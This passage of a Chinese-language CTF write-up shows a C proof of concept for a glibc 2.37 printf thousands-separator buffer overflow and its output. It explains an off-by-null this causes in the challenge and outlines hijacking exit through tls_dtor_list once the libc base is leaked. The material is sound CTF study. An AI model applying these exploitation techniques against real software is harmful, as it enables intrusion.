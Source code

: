 ```c
#include <stdio.h>
#include <locale.h>
#include <string.h>

int main(void)
{
    char buf[strlen("12345678:") + 1];
    __builtin_memset(buf, 'x', sizeof(buf));
    if (setlocale(LC_ALL, ""))
    {
        for (size_t i = 0; i < strlen("12345678:") + 1; i++)
        {
            printf("%c", buf[i]);
        }
        printf("\n");
        printf("12345678:\n");
        printf("%-'8d:\n", 1000);
        sprintf(buf, "%-'8d:", 1000);
        for (size_t i = 0; i < strlen("12345678:") + 1; i++)
        {
            printf("%c", buf[i]);
        }
        printf("\n");
    }
    return 0;
}
```

在`Linux`编译以上poc，patch上2.37的libc，结果如下：

```shell
john@john-virtual-machine:~/Desktop$ ./test
xxxxxxxxxx
12345678:
1,000    :
1,000    :
```

在后续测试过程中发现，先`setlocale`，然后再`register`一个新的用户，且该用户`uid=1000`，会导致`info->data_addr`的最低字节会被清空，造成`off by null`

## 4.EXP及调试

>在后利用阶段，主要用的是`tls_dtor_list`劫持`exit`执行流的方法，该方法只需要泄露libc的基地址即可，在这一题中，我用标志错误输出来泄露libc的基地址，和其他师傅赛后交流后，如果用ROP反弹flag的话，还需要泄露栈地址，这样会关闭标准输出。

`tls_dtor_list`劫持`exit`执行流的利用条件：
- 存在任意地址写的漏洞利用
- 能够篡改或泄露`fs_base + 0x30`的值
- 程序会通过`exit`函数结束程序，若是通过`_exit`则不行

参考：
[https://tttang.com/archive/1749/](https://tttang.com/archive/1749/)
